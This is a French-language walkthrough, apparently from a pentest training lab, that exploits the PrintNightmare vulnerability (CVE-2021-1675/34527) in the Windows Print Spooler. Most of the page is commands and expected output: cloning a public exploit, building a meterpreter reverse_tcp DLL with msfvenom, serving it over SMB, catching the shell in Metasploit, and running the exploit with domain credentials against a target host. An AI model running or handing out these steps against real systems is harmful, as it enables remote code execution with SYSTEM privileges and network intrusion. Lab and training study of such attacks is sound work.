 # PrintNightmare

### <mark style="color:red;">PrintNightmare</mark>

<mark style="color:blue;">**(CVE-2021-34527 & CVE-2021-1675)**</mark>

<mark style="color:green;">**Introduction**</mark>

PrintNightmare est le surnom donné à deux vulnérabilités critiques affectant **le service Print Spooler de Windows**. Ces vulnérabilités permettent à un attaquant d'exécuter du code à distance avec des privilèges système sur une machine cible.

<mark style="color:green;">**Préparation de l'attaque**</mark>

<mark style="color:orange;">**Clonage de l'exploit**</mark>

Nous utilisons l'exploit de cube0x0 disponible sur GitHub :

```bash
git clone https://github.com/cube0x0/CVE-2021-1675.git
```

<mark style="color:orange;">**Installation de la version modifiée d'Impacket**</mark>

```bash
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```

<mark style="color:green;">**Enumération des services vulnérables**</mark>

Nous utilisons `rpcdump.py` pour vérifier si le protocole MS-RPRN est exposé sur la cible.

```bash
rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'
```

Sortie attendue :

```
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol
Protocol: [MS-RPRN]: Print System Remote Protocol
```

<mark style="color:green;">**Génération du Payload**</mark>

Nous créons une DLL malveillante avec `msfvenom` :

{% code fullWidth="true" %}
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll
```
{% endcode %}

<mark style="color:green;">**Hébergement du Payload avec un Partage SMB**</mark>

Nous utilisons `smbserver.py` pour créer un partage SMB :

```bash
sudo smbserver.py -smb2support CompData /path/to/backupscript.dll
```

<mark style="color:green;">**Configuration de Metasploit pour réceptionner la connexion**</mark>

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 172.16.5.225
set LPORT 8080
run
```

<mark style="color:green;">**Exécution de l'Exploit**</mark>

Nous lançons l'exploit contre la cible en lui fournissant le chemin vers le partage SMB contenant notre payload.

{% code overflow="wrap" fullWidth="true" %}
```bash
sudo python3 CVE-2021-1675.py inlanefreight.local/forend:Klmcargo2@172.16.5.5 '\\172.16.5.225\CompData\backupscript.dll'
```
{% endcode %}

Sortie attendue :

```
[*] Connecting to ncacn_np:172.16.5.5[\PIPE\spoolss]
[+] Bind OK
[*] Executing \??\UNC\172.16.5.225\CompData\backupscript.dll
```

